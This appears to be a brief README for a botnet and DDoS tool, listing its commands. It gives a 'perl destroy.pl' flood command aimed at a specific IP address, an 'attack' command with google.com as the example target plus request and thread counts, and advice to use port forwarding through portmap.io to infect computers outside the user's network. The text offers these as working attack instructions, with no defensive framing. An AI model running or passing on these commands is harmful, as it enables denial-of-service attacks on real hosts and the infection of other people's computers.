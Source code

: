 # Commands

$ bots

perl destroy.pl 76.223.105.230 80 65500 50000000000

$ attack

This command make the DDoS Attack, Example:

attack google.com 1000 [Number of requests] 120 [Threads]

Dont enter http / https, just the host


# How to use Out-Lan

There is a tool called portmap.io which can be used to do portforwading and be able to infect computers that are not on your same network. I recommend you look at it
